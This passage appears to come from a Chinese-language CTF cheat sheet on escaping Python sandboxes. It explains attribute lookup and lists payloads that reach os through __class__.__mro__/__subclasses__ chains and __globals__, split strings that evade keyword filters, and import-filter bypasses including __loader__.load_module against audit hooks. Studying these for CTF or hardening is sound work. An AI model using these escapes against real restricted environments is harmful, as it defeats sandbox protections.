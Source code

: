 与 `__getattribute__` 不同，`__getattr__` 只有在属性查找失败时才会被调用，这使得 `__getattribute__` 可以用来更为全面地控制属性访问。

如果在一个类中同时定义了 `__getattr__` 和 `__getattribute__`，那么无论属性是否存在，`__getattribute__` 都会被首先调用。只有当 `__getattribute__` 抛出 `AttributeError` 异常时，`__getattr__` 才会被调用。

另外，所有的类都会有`__getattribute__`属性，而不一定有`__getattr__`属性。


#### `__globals__` 替换
`__globals__` 可以用 func_globals 直接替换；

```py
''.__class__.__mro__[2].__subclasses__()[59].__init__.__globals__
''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals
''.__class__.__mro__[2].__subclasses__()[59].__init__.__getattribute__("__glo"+"bals__")
```

#### `__mro__`、`__bases__`、`__base__`互换

三者之间可以相互替换
```py
''.__class__.__mro__[2]
[].__class__.__mro__[1]
{}.__class__.__mro__[1]
().__class__.__mro__[1]
[].__class__.__mro__[-1]
{}.__class__.__mro__[-1]
().__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
[].__class__.__base__
().__class__.__base__
{}.__class__.__base__
```



### 过滤 import
python 中除了可以使用 import 来导入，还可以使用 `__import__` 和 `importlib.import_module` 来导入模块

#### `__import__`
```py
__import__('os')
```
#### importlib.import_module
不过 importlib 也需要导入,所以有些鸡肋.
```py
import importlib
importlib.import_module('os').system('ls')
```
注意：importlib 需要进行导入之后才能够使用

#### `__loader__.load_module`
如果使用 audithook 的方式进行过滤,上面的两种方法就无法使用了,但是 `__loader__.load_module` 底层实现与 import 不同, 因此某些情况下可以绕过.
```py
>>> __loader__.load_module('os')
<module 'os' (built-in)>
```
